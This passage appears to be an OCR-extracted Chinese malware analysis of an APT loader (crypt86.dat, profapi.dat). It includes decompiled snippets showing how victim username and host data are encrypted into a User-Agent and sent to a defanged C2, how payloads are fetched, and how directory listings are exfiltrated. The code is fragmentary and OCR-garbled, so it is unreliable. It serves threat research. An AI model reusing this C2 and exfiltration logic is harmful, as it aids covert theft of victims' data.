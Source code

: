 crypt86.dat的主要功能是下载数据并使用profapii.dat解密执行后续功能。  

攻击者将多个下载地址解密后进行配置，可根据需要选择对应的地址使用。  

获取受害者主机名称和用户名等信息，并与字符串hebei进行拼接，格式如下：hebei,%username%;%pc_name%;%userprofile%  

拼接的字符串使用异或 $^{3+}$ base64编码后将其作为UA发送到下载地址（hxxp://82.xxx/cache）:  

v44 = (void \*)xor3_encrypt_180001190(Destination, 2 \* v41, &v73);   
memset(Destination, 0, sizeof(Destination));   
dword_180021A50 $=0$   
while（1）   
{ LODWORD(v70)= 0; $\vee82~=~\theta\dot{1}64$ ； $\vee83~=~\theta_{\oplus}~$ $v45=\Theta.$ $\vee46=$ (( int64 _fastcall \*)(void \*，_QWORD, _QWORD,_QWORD,WCHAR \*,wchar_t \*))InternetOpenA)( V44, //UA 0i64, 0i64, 0i64, v70, LODWORD(V72) $=$ eebug  

接收从下载地址返回的7个字节数据，并且返回的数据以ref作为起始字符，从中提取出后续请求的文件名，该文件名与下载地址进行拼接后组成完整的请求链接，例如：hxxp://82.xx/list/2.cab，请求的UA依然是前面拼接加密的数据：  

\*(_WORD \*)&v53[v73] = 0;   
if （ BYTE6(v82) == 'z')   
{ LODWORD(v70) $=$ SBYTE5(v82); sub_1800020F8((int)v88, 200, (int)L"%s%c.cab",v53, v70);   
else   
{ LODWORD(v72) $=$ SBYTE6(v82); LODWORD(v70) $=$ SBYTE5(v82); sub_1800020F8((int)v88, 200,(int)L"%s%c%c.cab", v53, v70, $v72$ );   
free(v53); Seet  

如果获取数据成功，解密后其中的数据使用，进行分割，分割后的第一个数据为后续需要加载的组件名，第二个数据为组件中的导出函数，最后的数据为传入组件的参数。  

若上面的数据请求失败且次数达到10次后则直接向另外一个地址发起请求，同样这个请求地址有多个（均使用公共服务平台bitbucket.org），该请求返回的数据使用相同的解密及分割方式进行解析：  

![](https://cdn-mineru.openxlab.org.cn/extract/103aa1a5-b284-4a46-9240-02d632351910/9cd958fbbe58b01d48496733a71b0b77f805963a5910ee8279723aebba691083.jpg)  

由于分析时已无数据返回，暂时无法明确后续数据内容，但从以往该组织的攻击活动来看，后续返回的组件名为同文件释放的profapi.dat，导出函数为profapi.dat的导出函数mscuicrypt，关于profapi.dat的功能见下一章节分析。  

#### 2.2.3.2 profapii.dat分析描述  

profapi.dat中包含名为mscuicrypt的导出函数，该函数的主要功能是解密传入的参数并根据参数中的数据完成后续功能：  

<html><body><table><tr><td>Name</td><td>Address</td><td>Ordinal</td></tr><tr><td>mscuicrypt</td><td>0000000180002CEC</td><td></td></tr><tr><td>DllEntryPoint</td><td>0000000180003130</td><td>[main entry]</td></tr></table></body></html>  

传入的参数以H进行分割，解密后完成指定功能，包括：  

1.从参数中，解密出一个远程地址和一个本地路径，从远程地址下载文件，并进行解密后，保存在本地路径下。  
2.从参数中，解密出一个本地路径，并加载执行。  
3.从参数中，解密出一个远程路径和一个本地路径。对本地路径下的文件进行遍历，获取所有文件名，拼接上特殊的字符后，进行加密，并设置为UA字符串，连接远程路径。  
if（ v5）v6 = v5 - 1;if（v6{if （ v6 == 1）{free(v4);sub_180002BC8(v9) ;else{free(v4);sub_180002430(v9);  
else  
{free(v4);sub_180001E70( $v9$ );  

//加载指定组件 //组件下载 //目录遍历  

其中目录遍历时，将获取的数据利用[]进行拼接：  

FirstFileW $=$ FindFirstFileW(v4, &FindFileData);  
memset(v78, 0, 0x1388ui64);  
if （ FirstFileW ! $=$ (HANDLE)-1i64)  
{sub_180001008((int)v78, 5000, (int)L"%s\n");do{if （ (FindFileData.dwFileAttributes & Ox10） != 0){$\vee71=\lfloor"\rfloor"$ ;sub_180001008((int)v78, 5000, (int)L"%s%s%s%s\n");}else{sub_180001008((int) $v78$ ，5000,(int)L"%s%s\n");}}while （ FindNextFileW(FirstFileW, &FindFileData） );Seebug  
